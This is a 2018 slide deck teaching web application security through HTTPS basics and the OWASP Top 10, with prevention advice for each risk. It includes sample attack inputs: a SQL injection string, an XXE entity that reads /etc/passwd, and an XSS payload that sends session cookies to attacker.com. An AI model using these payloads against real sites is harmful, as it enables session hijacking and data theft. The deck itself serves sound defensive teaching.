

## Technology / Project exchange - May 23, 2018
---
## Web Application Security

---
## Discussion on HTTPS

### Secured communication
- Verify who you are communicating with
- Secured against eavesdropper

+++

### Asymmetric Encryption
- Which is it?
  - Encrypt with public key, Decrypt with private key
  - Encrypt with private key, Decrypt with public key

+++
### HTTPS cert


source: https://techatlast.com/

+++

### Digital Signature


source: https://www.securedsigning.com/
+++
### SSL Handshake


source: Google Images

+++
### Server Name Indication



---
## Top 10 OWASP (Open Web App Security Project) Security Risks (2017)

---
### 1 - Injection

#### Example:
- SQL injection

```java
String query = "SELECT * FROM accounts WHERE
custID='" + request.getParameter("id") + "'";
```

```plain
http://example.com/app/accountView?id=' or '1'='1
```

+++
#### Prevention:
- Use safe API
- Use whitelist server-side input validation
- Escape special characters

---
### 2 - Broken Authentication

#### Example:
- Improper session timeout
- Credential stuffing


+++
#### Prevention:
- Implement MFA
- Do not deploy system with default admin password
- Password complexity checks
- Password expiry / rotation checks
- Use same message for all outcomes in auth, registration, recovery to avoid account enumeration
- Limit login attempts, put delay on failed login attempts
- Session ID should not be in URL, invalidated after logout, idle, timeouts

---
### 3 - Sensitive Data Exposure

#### Example:
- Credit Card number encrypted in DB, but SQL injection exposed the number in clear text
- A site has mix of http and https pages. Cookies established in https pages are transferred in clear text when user navigates to http pages
  - Note: read up what "secure cookie" mean
- Password hash without salt / using simple hash algo

+++
#### Prevention:
- Encrypt sensitive data at rest (e.g. in DB)
- Better yet, don't store sensitive data unnecessarily (make sure it's not in the log either!)
- Use up-to-date encryption / hash algorithm, protocols
- Use HSTS
  - Note: read more on HSTS
- Store password with strong adaptive salted hashing functions

---
### 4 - XML External Entities (XXE)

- Explanation of XXE: https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/

#### Example:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

+++

&xxe; will be replaced by the content in /etc/passwd when the XML is parsed. If the XML content is subsequently returned to client, the passwords in /etc/passwd is exposed

+++
#### Prevention:
- Use JSON instead
- Updated SOAP to SOAP 1.2 or higher
- Disable XML external entity and DTD processing in XML parser
- Sanitize XML (from user uploads, ftp etc..)

---
### 5 - Broken Access Control

#### Example:

A web app expose an url to display account information:

```plain
http://example.com/app/accountInfo?acct=notmyacct
```

+++
#### Prevention:
- Access control enforced on SERVER SIDE
- Enforce record ownership
- Disable web server directory listing
- Log access control failures and alert when excessive failure happens
- Rate limit API
- Dev and QA should include functional access control tests

---
### 6 - Security Misconfiguration

#### Example:

- Sample web app from web server not removed
- Web server directory listing not disabled
- Detailed error messages exposed to public

+++
#### Prevention:
- Deployment automation
- Remove things not used - samples, features not needed, docs etc.
- Segmented application architecture

---
### 7 - Cross-Site Scripting (XSS)

#### Example:

```java
Response.Write("Record #" + Request["RecordID"]);
```

The attacker send a URL with RecordID equals to
```plain
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'
```

The victim clicks on the URL and the session ID in cookie is sent to the attacker's website.

+++
#### Example:

XSS appears in places like this also:

```html
<style>{ background-url : "javascript:alert(1)"; }</style>
<span style="background-url : 'javascript:alert(1)';">
```

+++
#### Prevention:

- Use frameworks to sanitize HTML markup
- Use application/json for JSON response 
  - There can be script content inside JSON body
- Use HTTP Only cookie flag
- Implement CSP


+++
- Instead of 
```html
<script>var data = <%= jsonString %></script>
```
Do this
```html
<div id="data" style="display: none">
  <%= HtmlUtility.HtmlEncode(jsonString) %>
</div>
<script>var data = JSON.parse(
  document.getElementById('data').textContent
);</script>
```

Read more: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

---
### 8 - Insecure Deserialization

#### Example:

- Application serializes user state and pass it back and forth
- Attacker notices the pattern, tampered the serialized user state
- The server trusted the tampered user state and perform unauthorized actions

+++
#### Prevention:

- Only accept serialized data from trusted source
- Integrity checks e.g. digital signatures
- Log deserialization failures

---
### 9 - Components with Known Vulnerabilities

#### Example:
- Using outdated WordPress framework / components
- NPM packages with known issues reported on npm audit
- Outdated nuget packages
- [Article - harvesting credit card numbers and passwords from web sites](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5)

+++
#### Prevention:
- Remove unused dependencies, features, components, files, docs
- Only use official sources over secured links to obtain components
- NPM audit helps report vulnerabilities for NPM packages
- Artificatory

---
### 10 - Insufficient Logging & Monitoring

#### Example:

- Auditable events (e.g. success/failed log in) are not logged
- Lack of monitoring / alerting mechanism to report suspicious activities

+++

#### Prevention:

- Ensure logins, access control failures, server-side input validation failures are logged with sufficient information for delayed forensic analysis (e.g. client IP, the user context)
- Establish monitoring / alert for suspicious activities


---
## Top 10 OWASP Security Risks in 2013 that were removed / updated

+++
### Cross-Site Request Forgery (Removed)

Removed - many frameworks include CSRF defenses

+++
### Unvalidated Redirects and Forwards 

Removed - edged out overall by XXE

+++
### Insecured Direct Object References

Merged as Broken Access Control

+++

### Missing Function Level Access Control

Merged as Broken Access Control

---
## Learn More

- https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project
- https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf
